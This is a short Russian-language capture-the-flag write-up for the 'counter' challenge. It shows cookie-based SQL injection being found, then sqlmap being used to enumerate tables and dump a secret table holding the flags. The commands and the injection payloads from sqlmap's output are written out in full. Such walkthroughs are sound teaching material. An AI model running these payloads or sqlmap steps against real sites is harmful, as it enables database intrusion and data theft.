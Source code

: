 1. curl -v http://counter.ctf2019.rocks/
Видим что подсчет ведется в зависимости от куки user_id=2
Подставив в куку букву, получаем mysqli_sql_exception
```bash
curl http://counter.ctf2019.rocks/ --cookie "user_id=a"
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: Unknown column 'a' in 'where clause' in /var/www/index.php:9
Stack trace:
#0 /var/www/index.php(9): mysqli-&gt;query('UPDATE `count` ...')
#1 {main}
  thrown in <b>/var/www/index.php</b> on line <b>9</b><br />
```
2. Натравливаем sqlmap
```bash
sqlmap -u http://counter.ctf2019.rocks/ --cookie "user_id=1" --level 2
Parameter: user_id (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: user_id=1 AND 7241=(SELECT (CASE WHEN (7241=7241) THEN 7241 ELSE (SELECT 2316 UNION SELECT 2599) END))-- stfV

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: user_id=1 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7176766271,(SELECT (ELT(9237=9237,1))),0x71786b7a71,0x78))s), 8446744073709551610, 8446744073709551610)))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user_id=1 AND (SELECT 7725 FROM (SELECT(SLEEP(5)))VPcu)
---
```
3. Смотрим таблицы
```bash
sqlmap -u http://counter.ctf2019.rocks/ --cookie "user_id=1" --level 2 --tables

Database: counter
[2 tables]
+---------------------------------------+
| count                                 |
| secret                                |
+---------------------------------------+
```
4. Дампим secret
```bash
sqlmap -u http://counter.ctf2019.rocks/ --cookie "user_id=1" --level 2 --dump secret

[2 entries]
+-----------------------------------------+
| secret                                  |
+-----------------------------------------+
| qlvnz{74223k502uy013289w95g9yu0x26h985} |
| WGCTF{99CAF43C7F7F18B87DD6B3DCAE1CD020} |
+-----------------------------------------+
```
Собственно флаг. Доп зашифрован Виженером.
Второй найден в http://counter.ctf2019.rocks/robots.txt